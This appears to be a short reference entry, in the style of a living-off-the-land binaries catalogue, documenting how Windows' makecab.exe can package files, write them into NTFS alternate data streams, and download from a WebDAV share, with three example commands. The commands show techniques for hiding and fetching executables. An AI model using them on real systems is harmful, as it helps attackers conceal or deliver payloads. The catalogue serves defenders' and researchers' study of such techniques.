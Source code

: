 ## Makecab.exe

* Functions: Package, Add ADS, Download

```
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab    

makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab    
   
makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\makecab.exe
c:\windows\sysWOW64\makecab.exe
```

Notes:



 
